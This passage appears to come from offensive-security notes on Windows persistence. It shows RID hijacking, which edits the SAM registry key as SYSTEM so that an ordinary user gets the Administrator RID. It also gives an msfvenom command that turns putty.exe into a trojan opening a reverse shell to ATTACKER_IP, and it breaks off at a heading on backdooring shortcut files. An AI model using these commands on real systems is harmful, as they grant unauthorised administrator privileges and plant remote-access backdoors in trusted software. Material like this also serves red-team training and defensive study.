 Modify user `RID` via `regedit` to `500 = 0x01F4`:
```bat
PsExec64.exe -i -s regedit
    HKLM\SAM\SAM\Domains\Account\Users\
```
|![](Images/image-3.png)|
|:--:| 
| *Modification of RID* |
| *Original value: 1010 = 0x03F2 * |
| *Target value: 500 = 0x01F4 * |

The next time user logs in, `LSASS` will associate it with the same RID as Administrator and grant them the same privileges.

## Backdooring Files

### Backdooring Executable Files
Backdooring (modifying) popular executables may allow attacker to establish persistance.

```
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

### Backdooring Shortcut Files
Backdooring (modifying) or creating shortcuts files may allow attacker to establish persistance.
